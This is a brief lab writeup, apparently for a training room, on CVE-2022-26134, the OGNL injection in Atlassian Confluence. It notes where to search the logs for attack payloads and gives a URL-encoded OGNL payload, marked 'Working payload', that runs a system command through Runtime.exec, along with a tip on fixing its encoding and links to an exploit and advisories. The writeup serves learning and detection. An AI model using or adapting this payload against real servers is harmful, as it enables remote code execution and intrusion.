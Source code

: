 # CVE-2022-26134 (Writeup/understanding)

The logs are located in /opt/atlassian/confluence/logs
You can see if you've been targeted by searching for payloads in the logs folder.


URLencode output:
%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20%2Ftmp%2Fthm%2F%22%29%7D%/


For some reason urlencode appends a % between } and /. The % needs to be removed. This can be viewed by using cyberchef

Working payload:
%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/thm%22%29%7D/c


[Exploit](https://github.com/Nwqda/CVE-2022-26134)
[Qualys](https://blog.qualys.com/vulnerabilities-threat-research/2022/06/29/atlassian-confluence-ognl-injection-remote-code-execution-rce-vulnerability-cve-2022-26134)
[OWASP Expression Language Injection](https://owasp.org/www-community/vulnerabilities/Expression_Language_Injection)
